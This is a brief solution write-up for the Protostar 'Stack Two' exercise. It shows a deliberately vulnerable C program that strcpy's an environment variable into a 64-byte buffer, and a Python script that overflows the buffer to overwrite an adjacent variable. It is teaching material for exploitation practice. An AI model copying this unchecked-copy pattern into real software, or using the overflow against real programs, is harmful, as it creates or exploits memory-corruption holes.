

# Stack Two

## Description

Stack2 looks at environment variables, and how they can be set.

This level is at /opt/protostar/bin/stack2

## Source code

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

## Exploit script

```python
from os import system

payload =  "A"*64
payload += "\x0a\x0d\x0a\x0d"

system("export GREENIE=\"" + payload + "\" ; ./stack2")
```

Level passed!

<p align="center">
    
</p>